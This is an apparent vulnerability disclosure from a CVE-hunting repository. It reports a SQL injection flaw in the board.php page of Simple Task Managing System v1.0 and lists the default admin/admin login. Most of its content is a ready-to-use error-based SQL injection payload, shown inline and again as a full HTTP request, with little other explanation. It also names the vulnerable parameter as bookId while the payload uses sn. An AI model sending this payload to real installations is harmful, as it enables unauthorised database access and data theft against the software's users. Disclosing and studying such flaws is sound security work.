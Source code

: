 # Simple Task Managing System - SQL injection

Simple Task Managing System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /board.php

username:admin password:admin ----> {ip}/board.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/board.php has SQL injection

Payload: http://localhost:80/cve/Task Managing System in PHP/board.php?sn=admin1' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa

SQL injection because $shortName can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-06-50.png)

## Payload

```sql
GET http://localhost:80/cve/Task Managing System in PHP/board.php?sn=admin1' AND ROW(6066,2526)>(SELECT COUNT(*),CONCAT(0x7171787a71,(SELECT (ELT(6066=6066,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 5176 UNION SELECT 2058 UNION SELECT 2430 UNION SELECT 5444)a GROUP BY x) AND 'MkOa'='MkOa HTTP/1.1
Host: localhost
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-09-40.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_11-07-15.png)